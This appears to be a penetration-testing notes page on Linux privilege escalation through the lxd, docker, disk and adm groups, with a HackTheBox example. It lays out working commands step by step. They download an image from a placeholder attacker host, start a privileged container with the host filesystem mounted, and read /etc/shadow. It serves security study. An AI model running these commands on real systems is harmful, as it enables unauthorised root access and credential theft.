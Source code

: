 ```yaml
---
title: lxd 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - privilege escalation
  - linux
  - lxd
---
```

# lxd

Linux Daemon ([LXD](https://github.com/lxc/lxd)) is similar to Docker and is Ubuntu's container manager. LXD is a management API for dealing with LXC containers on Linux systems. It will perform tasks for any members of the local lxd group. It does not make an effort to match the permissions of the calling user to the function it is asked to perform.

Before we can use this service to escalate our privileges, we must be in either the `lxc` or `lxd` group.

[Source: https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/). In this article, you can find a good explanation about how lxc works. [Original source: https://bugs.launchpad.net/ubuntu/+source/lxd/+bug/1829071](https://bugs.launchpad.net/ubuntu/+source/lxd/+bug/1829071).

## Privileges escalation

Privilege escalation through lxd requires the access of local account and that that local account belongs to the group lxd.

### Create our own container with Alpine and transfer it to the target system
In order to take escalate the root privilege of the host machine you have to create an image for lxd thus you need to perform the following the action:

**Steps to be performed on the attacker machine:**

```bash
# Download build-alpine in your local machine through the git repository:
git clone https://github.com/saghul/lxd-alpine-builder.git

# Execute the script “build -alpine” that will build the latest Alpine image as a compressed file, this step must be executed by the root user.
cd lxd-alpine-builder
sudo ./build-alpine

# This will generate a tar file that you need to transfer to the victim machine. For that you can copy that file to your /var/www/html folder and start apache2 service.
```

**Steps to be performed on the victim machine:**

```bash
# Download the alpine image. Go for instance to the /tmp folder and, if you have started the apache2 service in the attacker machine, do a wget:
wget http://AtackerIP//alpine-v3.17-x86_64-20230508_0532.tar.gz

# After the image is built it can be added as an image to LXD as follows:
lxc image import ./alpine-v3.17-x86_64-20230508_0532.tar.gz --alias myimage

# List available images:
lxc image list

# Initiate your image inside a new container
lxc init myimage ignite -c security.privileged=true

# Mount the container inside the /root directory
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true

# Initialize the container
lxc start ignite

# Launch a shell command in the container
lxc exec ignite /bin/sh

# Access the system via 
ls -l /mnt/root
```


#### Example from HackTheBox

Unzip the Alpine image.

```shell-session
 unzip alpine.zip 
```

Start the LXD initialization process. Choose the defaults for each prompt. Consult this [post](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04) for more information on each step.

```shell-session
lxd init

# List available images
lxc image list
```

Import the local image.

```shell-session
lxc image import alpine.tar.gz --alias alpine
```

Start a privileged container with the `security.privileged` set to `true` to run the container without a UID mapping, making the root user in the container the same as the root user on the host.

```shell-session
lxc init alpine r00t -c security.privileged=true
```

Mount the host file system.

```shell-session
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
```

Finally, spawn a shell inside the container instance. We can now browse the mounted host file system as root.

```shell-session
lxc start r00t
lxc exec r00t /bin/sh
ls -l /mnt/root
```

## Docker

Placing a user in the docker group is essentially equivalent to root level access to the file system without requiring a password. Members of the docker group can spawn new docker containers:

```
docker run -v /root:/mnt -it ubuntu
```

This command creates a new Docker instance with the /root directory on the host file system mounted as a volume. Once the container is started we are able to browse the mounted directory and retrieve or add SSH keys for the root user. This could be done for other directories such as `/etc` which could be used to retrieve the contents of the `/etc/shadow` file for offline password cracking or adding a privileged user.

## Disk

Users within the disk group have full access to any devices contained within `/dev`, such as `/dev/sda1`, which is typically the main device used by the operating system. An attacker with these privileges can use `debugfs` to access the entire file system with root level privileges.

**1.** Check if the user is in the `disk` group

```
id
```

**2.** Identify the disk partitions available

```
lsblk
```

**3.** Look for partitions like /dev/sda1, which usually contains the root filesystem. Open the filesystem with debugfs

```
sudo debugfs /dev/sda1
# If you already have disk group privileges, sudo is not required.
```

**4.**  Access and read sensitive files (e.g., /etc/shadow)

```
cat /etc/shadow
```

## ADM 

Members of the adm group are able to read all logs stored in /var/log. This does not directly grant root access, but could be leveraged to gather sensitive data stored in log files or enumerate user actions and running cron jobs.


## Related labs

[HackTheBox machine Included](htb-included.md).

